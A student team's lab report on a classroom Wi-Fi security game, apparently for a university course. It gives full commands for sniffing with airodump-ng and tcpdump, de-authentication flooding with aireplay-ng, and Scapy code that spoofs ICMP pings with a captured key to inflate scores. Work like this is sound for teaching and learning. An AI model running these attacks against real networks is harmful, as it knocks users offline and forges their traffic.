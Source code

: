 <div class="titlePage">

# Lab 1 Report

##### Team 3: Hannah Callihan, Jerrel Gordon, Grant Butler, Rusheel Raj
</div>

<div class="center">

#### Table of Contents
</div>
[TOC]
<div class="pageBreak"></div>

#### Task 1: Finding Wi-Fi Routers and Clients
<sub>Display available WiFi Access Points and Stations in the classroom. Explain what method/tool you used for this purpose.</sub>

Using command:
```bash
sudo tcpdump -i wlan1mon 'icmp'
```
We were able to view all the available wifi access points and filtering the results to only show the `icmp` packets being sent, since the script on the PIs specifically stated `ping 192.168.1.120` and `ping` uses icmp.

@import "assets/airodump_of_all_pis.png"
<sub>*all APs with ESSIDs that start with `FITSec`*
</sub>


#### Task 2: Sniffing Wi-Fi Traffic
<sub>Sniff the Wi-Fi interface and provide some screenshots of packets transmitted.</sub>

Used the command:
```bash
sudo airodump-ng wlan1mon –c 9
```
to sniff the Wi-Fi transmissions and see packets being sent.

@import "assets/network_sniff.png"
<sub>*packets sniffed with `airodump-ng`*
</sub>

<div class="pageBreak"></div>

#### Task 3: Sending De-Authentication Packets
<sub>How did you send the de-authentication packets? How did you confirm it worked?</sub>

Found the BSSIDs of a specific PI with command:
```bash
sudo airodump-ng wlan1mon --bssid={client BSSID} -c 9
```
@import "assets/getting_bssids.png"
<sub>*the bssid of a station connected to the router with essid of `FITSec-Team-1`*
</sub>

Then, used the BSSID to send a de-authentication attack to the router pretending to be the PI.

The command used:
```bash
sudo aireplay-ng wlan1mon -0 1000 -a {router BSSID} -c {client BSSID}
```

@import "assets/sending_deauth_attack.png"
<sub>*sending a de-auth attack by pretending to be the station requesting de-auth to the router*
</sub>

Confirmed that the attack worked by seeing that Team 1's score was no longer going up each time the scoreboard updated.

<sub>*A deauthing chaos then ensued and ultimately broke the network, which, as I would later learn was Nick de-authing the FITSec-Air router.*
、ヽ｀、ヽ｀个o( ಡ_ಡ)｀ヽ、｀ヽ、
</sub>

<div class="pageBreak"></div>

#### Task 4: Spoofing Pings to Artificially Inflate Scores
<sub>What procedure (if any) did you follow to beat the game? Has it worked? If not, what went wrong? Explain in short.</sub>

First recorded a pcap with command:
```bash
sudo tcpdump -i wlan1mon 'icmp' -w lab1.pcap
```

Then, opened the pcap in wireshark to get the key in plaintext from the packet (Note that this was only easy because the key was not encrypted).
@import "assets/key_from_pcap.png"
<sub>*pcap from traffic using `tcpdump` of icmp traffic and using it to get the key to spoof packet*
</sub>

Finally, we used Scapy to spoof the ping packets with:
```py
packet=IP(src="192.168.1.92",dst="192.168.1.120")/ICMP()/Raw(load="key{9b3e1a6eb20bkey{9b3e")
send(packet,loop=1)
```

@import "assets/spoof_four.png"
<sub>*spoofing with four instances of scapy running on the pi*
</sub>

<div class="pageBreak"></div>

#### Project Contributions
<sub>Who did what in the project/report?</sub>

##### Hannah

Found available Wi-Fi Access Points and Stations in the classroom. Sniffed Wi-Fi interface. Worked on sending the deauthentication attacks to Teams 1 and 2. Wrote majority of lab report.

##### Jerrel
Used Wireshark to find team keys to assist in spoofing attacks. Used `tcpdump` to capture network information and used Scapy to spoof team score. Set this up on multiple devices.

##### Grant
Found available Wi-Fi APs, including the routers and clients with ESSIDs starting with `FITSec` using `airodump-ng`. Sniffed Wi-Fi packets being sent using `tcpdump` along with the specific BSSID being targeted. Used Wireshark with the help of Rusheel to find the key to spoof the pings. Sent the frames using `scapy` to inflate our score. Sent de-authentication attacks on Teams 1 and 4 using `aireplay-ng`, including one of Team 4’s personal laptops. Helped with Lab Report.

##### Rusheel Raj
Used wireshark to find team keys to assist in spoofing attacks. Used `tcpdump` to capture network information and used scapy to spoof other teams.
